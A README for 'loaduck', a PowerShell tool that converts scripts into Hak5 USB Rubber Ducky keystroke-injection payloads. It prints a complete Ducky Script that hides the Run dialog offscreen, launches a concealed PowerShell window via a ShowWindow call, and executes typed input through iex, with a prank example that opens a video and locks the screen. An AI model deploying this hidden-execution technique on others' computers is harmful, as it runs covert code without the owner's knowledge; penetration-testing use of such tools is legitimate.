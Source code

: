 # loaduck

PowerShell script bootstrapper for the Hak5 USB Rubber Ducky.

Written in PowerShell.

Targets Windows 7 and Windows 10, YMMV otherwise.

# How

PowerShell files can be dragged on to loaduck.ps1 to generate a .ps1.ducky.txt
file that can be used on the ducky.

Or you can use a command like:

    powershell .\loaduck.ps1 [ps1 filename]

This will generate:

    [ps1 filename].ducky.txt

The wrapper script minimises your source PowerShell into a single line, then
injects it in an (almost) invisible payload that's fired from Win-R.

### Example

For example, given a (really annoying) PowerShell script of:

```powershell
For ($i=0; $i -le 2; $i++) {
    start https://www.youtube.com/watch?v=dQw4w9WgXcQ
}
rundll32.exe user32.dll,LockWorkStation
```

Firstly, that script will be semi-minified to:

```powershell
For($i=0;$i -le 2;$i++){start https://www.youtube.com/watch?v=dQw4w9WgXcQ};rundll32.exe user32.dll,LockWorkStation
```

The the script will be encoded into the following Ducky Script:

```
DELAY 5000
GUI r
DELAY 250
ALT SPACE
STRING M
LEFT
REPEAT 40
ENTER
STRING powershell -w hidden iex '(Add-Type n -pas -m ''[DllImport(\"user32\")]public static extern int ShowWindow(int h,int n);'')::ShowWindow((gps -Id $pid).MainWindowHandle,0);Read-Host|iex'
ENTER
DELAY 1000
STRING For($i=0;$i -le 2;$i++){start https://www.youtube.com/watch?v=dQw4w9WgXcQ};rundll32.exe user32.dll,LockWorkStation
ENTER
```

The long PowerShell script creates the hidden PowerShell window that listens
for keystrokes (our minified annoying script in this case) and then runs them
when it receives and Enter key.

# Licence

This script is licensed MIT *except* for the minification folder which
contains a script that is MPL 1.1 licensed - see in there for details.
